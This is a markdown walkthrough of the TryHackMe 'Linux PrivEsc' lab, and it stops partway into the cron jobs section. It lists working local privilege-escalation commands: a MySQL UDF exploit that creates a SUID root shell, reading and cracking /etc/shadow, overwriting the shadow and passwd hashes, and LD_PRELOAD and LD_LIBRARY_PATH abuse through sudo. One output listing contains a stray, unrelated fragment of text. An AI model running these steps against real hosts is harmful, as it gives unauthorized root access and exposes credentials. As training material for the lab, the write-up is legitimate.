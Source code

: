 # TRYHACKME : Linux PrivEsc
Deploy the target machine, and enter the following ssh credentials: `user:password321`

## Service Exploits
Simply copy in consecutive order the ff commands:
```
cd /home/user/tools/mysql-udf
```
Compiler the following file `raptor_udf2.c`
```
gcc -g -c raptor_udf2.c -fPIC
gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
```
Connect to the mysql with no password:
```
mysql -u root
use mysql;
create table foo(line blob);
insert into foo values(load_file('/home/user/tools/mysql-udf/raptor_udf2.so'));
select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';
create function do_system returns integer soname 'raptor_udf2.so';
```

Use the function to copy /bin/bash to /tmp/rootbash and set the SUID permission:
```
select do_system('cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash');
whoami  // voila root access
```


## Weak File Permissions - Readable /etc/shadow
```
ls -l /etc/shadow
cat /etc/shadow
```
Save the root password hash to a txt file. The hash is found between the first and second colon.

Then run John the Ripper or use online resources to crack it.
```
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```
The type of hashing algorithm used will appear during John the Ripper cracking.

## Weak File Permissions - Writable /etc/shadow
If the file is writable, we can change the root password by generating a new hash password (same hashing algorithm as the previous password), and replacing the existing hash.
```
mkpasswd -m sha-512 newpasswordhere
```
Then edit the /etc/shadow and replace the old hash password.

Switch to root user.
```
su
```

## Weak File Permission - Writable /etc/passwd
Some old versions of linux stores user password hashes. 

If the `/etc/passwd` happens to be writable, we can generate a hash and store it within the first and second colon.

Generate new hash password:
```
openssl passwd newpasswordhere
```

Then edit the root in `/etc/passwd`. Place the hash between the first and second hash.

After that you can switch to the root user.


```
su
```

## Sudo - Shell Escape Sequences

List all programs user has sudo permissions.

user@debian:~$ sudo -l
Matching Defaults entries for user on this host:
    env_reset, env_keep+=LD_PRELOAD, env_keep+=LD_LIBRARY_PATH

```
User user may run the following commands on this host:
    (root) NOPASSWD: /usr/sbin/iftop
    (root) NOPASSWD: /usr/bin/find
    (root) NOPASSWD: /usr/bin/nano
    (root) NOPASSWD: /usr/bin/vim
    (root) NOPASSWD: /usr/bin/man
    (root) NOPASSWD: /usr/bin/awk
    (root) NOPASSWD: /usr/bin/less
    (root) NOPASSWD: /usr/bin/ftp
    (root) NOPASSWD: /usr/bin/nmap
    (root) NOPASSWD: /usr/sbin/apache2e metadata related to the photo by looking at the post’s metadata.
    (root) NOPASSWD: /bin/more
```

You can look up in [GTFOBins](https://gtfobins.github.io/) each directory and their exploit command to access root, except `/apache2`.

## Sudo - Environmental Variables
### sudo -l
From using the `sudo -l` command, the environment variables shared with the users can also be exploited.

```
Matching Defaults entries for user on this host:
    env_reset, env_keep+=LD_PRELOAD, env_keep+=LD_LIBRARY_PATH
```

We have a tool called `preload.c` we can use to exploit the `env_keep+=LD_PRELOAD`.

Compile the following tool with the command:
```
gcc -fPIC -shared -nostartfiles -o /tmp/preload.so /home/user/tools/sudo/preload.c
```

Then run in sudo any program you can run (I used `vim`), while setting the LD_PRELOAD with the full path of new shared object: 
```
sudo LD_PRELOAD=/tmp/preload.so program-name-here
```
Then you'll get root access.

### Program's Shared Library

You can also exploit shared libraries used by a program.

Let's use the `apache2` program for example:
```
user@debian:~$ ldd /usr/sbin/apache2
        linux-vdso.so.1 =>  (0x00007fff629ff000)
        libpcre.so.3 => /lib/x86_64-linux-gnu/libpcre.so.3 (0x00007f5534a7d000)
        libaprutil-1.so.0 => /usr/lib/libaprutil-1.so.0 (0x00007f5534859000)
        libapr-1.so.0 => /usr/lib/libapr-1.so.0 (0x00007f553461f000)
        libpthread.so.0 => /lib/libpthread.so.0 (0x00007f5534403000)
        libc.so.6 => /lib/libc.so.6 (0x00007f5534097000)
        libuuid.so.1 => /lib/libuuid.so.1 (0x00007f5533e92000)
        librt.so.1 => /lib/librt.so.1 (0x00007f5533c8a000)
        libcrypt.so.1 => /lib/libcrypt.so.1 (0x00007f5533a53000)
        libdl.so.2 => /lib/libdl.so.2 (0x00007f553384e000)
        libexpat.so.1 => /usr/lib/libexpat.so.1 (0x00007f5533626000)
        /lib64/ld-linux-x86-64.so.2 (0x00007f5534f3a000)
```

We have a tool called library_path.c from the `tools` directory, we compile it first in the `/tmp` directory:
```
gcc -o /tmp/libcrypt.so.1 -shared -fPIC /home/user/tools/sudo/library_path.c
```

Then run sudo command with apache2 program while setting up the library shared with `/tmp` directory storing the compiled tool before:
```
sudo LD_LIBRARY_PATH=/tmp apache2

```
Then you'll get root access.

## Cron Jobs - File Permission

First, let's view the following programs or scripts cronjob is scheduled to run.

```
user@debian:~$ cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/home/user:/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
* * * * * root overwrite.sh
* * * * * root /usr/local/bin/compress.sh
```

